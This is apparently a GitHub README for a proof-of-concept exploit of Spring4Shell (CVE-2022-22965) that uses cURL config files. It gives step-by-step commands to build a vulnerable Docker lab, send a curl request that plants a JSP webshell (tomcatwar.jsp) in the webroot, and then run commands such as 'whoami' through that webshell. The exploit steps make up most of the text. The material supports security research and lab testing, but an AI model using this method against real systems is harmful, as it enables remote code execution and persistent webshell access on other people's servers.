 # Spring4Shell-cURL
Weaponzing cURL configs to exploit Spring4Shell (CVE-2022-22965)


## cURL? Really?
Yup. I hadn't seen this method posted anywhere, so just wanted to document. Most of the heavy lifting had already been done, I just uniquely combined things with my own twist into this repo. 


### Quick Setup

1. Clone the repo. You'll need Docker and cURL.

2. Deploy the Docker container:  

```
docker image build -t retro/stupidrumor . && docker container run -it --publish 8080:8080 retro/stupidrumor
```

3. Use cURL to upload your WAR. The following command will read from the local `requests.txt` file. The `request.txt` contains request configurations we want cURL to use, namely the specific headers we need to exploit the vulnerable application. You'll notice the last line `data-binary = "@body.txt"` too, which is our POST body:

```
curl --config request.txt http://localhost:8080/stupidRumor_war/index
``` 
   
**Note:** I've included proxy support within the cURL configs, so we can send our requests through a transparent application proxy (Burp). This happens over port 8081, so make sure to adjust your proxy details as necessary. This is mostly for troubleshooting, but handy to have in your Repeater nonetheless :)
   
4. Once the cURL command is sent, the webshell (`tomcatwar.jsp`) will be uploaded to the webroot (`stupidRumor_war/`), which means you can access it here in a browser if you want: `stupidRumor_war/tomcatwar.jsp?`

5. But we're using cURL, so now issue the second cURL request:  
```
curl 'http://localhost:8080/stupidRumor_war/tomcatwar.jsp?pwd=j&cmd=whoami' --output -
``` 

## In Action
   
![image](https://user-images.githubusercontent.com/13237617/161151879-3cf326ad-6610-4bfe-992d-1d03279e6da5.png)

   
   
   
   
   
   
   
   
   
   
   
   ----------------
   Refs:  
[https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh](https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh)
